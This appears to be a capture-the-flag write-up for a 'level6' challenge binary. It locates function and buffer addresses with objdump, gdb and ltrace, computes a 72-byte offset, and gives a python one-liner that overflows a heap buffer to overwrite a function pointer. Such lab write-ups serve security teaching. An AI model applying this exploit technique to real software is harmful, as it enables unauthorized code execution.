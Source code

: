 In the code we can observe that the program use `strcpy` on a argument and store it in the heap. Although it store a pointer to a function right after. We could use a buffer overflow to
rewrite the value of the pointer from the function `m` to the function `n`.

## Investigation

First we need to get the adress of the `n` function.
```sh
objdump -t ./level6 | grep "n"
...
08048454 g     F .text	00000014              n
...
```
We can observe that `n` is stored at `0x08048454`

Next we need to know where the `func` function is stored.
```
(gdb) b *0x080484ce
(gdb) i r $eax
eax            0x804a050        134520912
```
So the function `func` is stored at `0x804a050`.

Finnaly we need to know from where are our arguments starting in the memory.
```sh
ltrace ./level6 aaaa
...
strcpy(0x0804a008, "aaaa")                                                = 0x0804a008
...
```
The result of the `strcpy` is stored at `0x0804a008`.

We can now calculate the length of our payload `0x804a050 - 0x0804a008 = 0x48 = 0d72` wich is a 72 chars long.

## Exploit

As seend before, our payload will have a 72 chars then the adress of the `n` function.
```shell
./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```
